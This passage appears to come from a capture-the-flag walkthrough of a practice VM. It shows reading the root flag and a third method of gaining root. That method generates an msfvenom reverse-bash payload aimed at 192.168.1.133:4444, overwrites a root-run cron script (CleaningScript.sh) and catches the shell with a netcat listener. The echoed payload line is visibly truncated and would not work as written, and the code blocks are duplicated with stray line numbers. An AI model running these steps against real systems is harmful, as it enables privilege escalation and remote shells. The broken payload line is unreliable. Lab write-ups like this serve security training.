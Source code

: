 **Voila!** We got a root shell! Let’s read the flag now.  

cd /root ls cat flag.txt

1

2

3

cd  /root

ls

cat flag.txt

![](https://i2.wp.com/4.bp.blogspot.com/-c1ypzYDZn_k/W11Jyay_VnI/AAAAAAAAYt4/si0bXYb1-mQT1W9sgbkpoZR-H_Uh6q8sQCLcBGAs/s1600/29.png?w=687&ssl=1)  

### **Method 3:**

Achieve shell as above and in another terminal window, try this msfvenom command:

msfvenom -p cmd/unix/reverse\_bash lhost=192.168.1.133 lport=4444 R

1

msfvenom  \-p  cmd/unix/reverse\_bash lhost\=192.168.1.133  lport\=4444  R

![](https://i1.wp.com/3.bp.blogspot.com/-3d3ZwAES0lc/W17UGcb1jBI/AAAAAAAAYyk/J6EiAM5YxbkKJfBR-5ckTkc82VQbQc_mQCLcBGAs/s1600/30.png?w=687&ssl=1)

Since we know CleaningScript.sh is run as root in every 5 minutes, so we copy this one-liner in CleaningScript.sh and activate a netcat shell side by side and wait for 5 minutes.  

cd /etc/script ls echo "0<&126 >&126 2>&126" > CleaningScript.sh

1

2

3

cd  /etc/script

ls

echo  "0<&126 >&126 2>&126"  \>  CleaningScript.sh

![](https://i0.wp.com/3.bp.blogspot.com/-2Ksu-yrKjRo/W17UGfojUJI/AAAAAAAAYyo/O-qrCMThJ70lFqcQZG6QgFPSq7WUz4-DwCLcBGAs/s1600/31.png?w=687&ssl=1)

In another window, after waiting for 5 minutes, we will get a root shell!  

nc -lvp 4444 id python -c 'import pty;pty.spawn("/bin/bash");' cat flag.txt

1

2

3

4

nc  \-lvp  4444

id

python \-c  'import pty;pty.spawn("/bin/bash");'

cat flag.txt

![](https://i2.wp.com/3.bp.blogspot.com/-xaJgB_J4gUY/W17UGHjVgEI/AAAAAAAAYyg/wWLs7qVa9LYrxIEB7L_l3KyBoDJWxq5OgCLcBGAs/s1600/32.png?w=687&ssl=1)

So, that’s how we captured the flag in this VM. Happy Hacking.